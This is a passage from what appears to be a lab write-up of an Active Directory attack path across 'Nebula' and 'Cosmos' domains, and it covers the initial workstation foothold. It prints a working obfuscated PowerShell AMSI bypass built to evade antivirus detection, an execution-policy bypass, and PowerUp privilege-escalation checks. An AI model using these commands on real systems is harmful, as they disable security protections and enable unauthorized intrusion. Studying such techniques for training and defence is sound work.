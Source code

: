 ## attack path

gain a foothold on the user workstation.

then, move laterally to the UAT and Dev servers, exploiting their looser security.

next, leverage access to compromise the production server.

abuse the production server's privileges to attack the `Nebula` domain controller.

finally, exploit the trust relationship to compromise the `Cosmos` domain controller and the entire forest.

# target 1: `User.Nebula.Cosmos.Local` - the foothold

the seemingly innocuous user workstation is the entry point into the network. in a typical enterprise environment, these workstations are the most numerous and often considered low-hanging fruit for attackers. employees use them for daily tasks and so they're often less strictly controlled than servers.

the challenge is to elevate privileges and gather crucial information about the domain structure...without raising any alarms. 

another thing about workstations: they often have vulnerabilities, outdated software, and misconfigurations. they can also be treasure troves of information, like cached credentials.

## initial access + privilege escalation

first, let's disable AMSI (Antimalware Scan Interface). AMSI is designed to prevent malicious scripts from running, so i'll have to write an obfuscated command to evade detection by signature-based security tools.

```powershell
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]("{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ))."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )
```

now i can run my own tools without interference.

next, let's change the execution policy.

```powershell
Powershell -ep bypass
```

this launches PowerShell with the execution policy set to `bypass`. the execution policy is a safety feature that controls the conditions under which PowerShell loads configuration files + runs scripts. by bypassing it, scripts can be run without restrictions.

i then used `PowerUp` to find vectors of privilege escalation. using it along with `Invoke-AllChecks` runs a series of checks to identify vectors like misconfigurations, vulnerable services, or unquoted service paths.

```powershell
.\PowerUp.ps1
Invoke-AllChecks
```
